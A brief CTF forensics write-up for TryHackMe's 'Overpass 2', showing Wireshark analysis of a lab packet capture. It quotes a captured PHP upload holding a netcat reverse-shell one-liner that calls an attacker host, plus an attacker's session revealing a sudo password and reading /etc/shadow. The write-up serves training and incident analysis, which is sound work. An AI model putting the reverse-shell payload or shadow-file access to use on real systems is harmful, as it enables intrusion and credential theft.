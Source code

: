 ```yaml
---
title: "Overpass 2"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="overpass2.png" alt="" width=200/>

## Forensics

Oh cool blue team stuff

we are provided with a PCAP file...wireshark read those better

filter for http

```
)n)ºHEô
.@@VTÀ¨ªÀ¨ªºvPÃró:
'ö©ó
Â¦+5P,ÆPOST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

Then filter by tcp and follow the steam

that guy use `sudo -l` like a Boss

```
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
```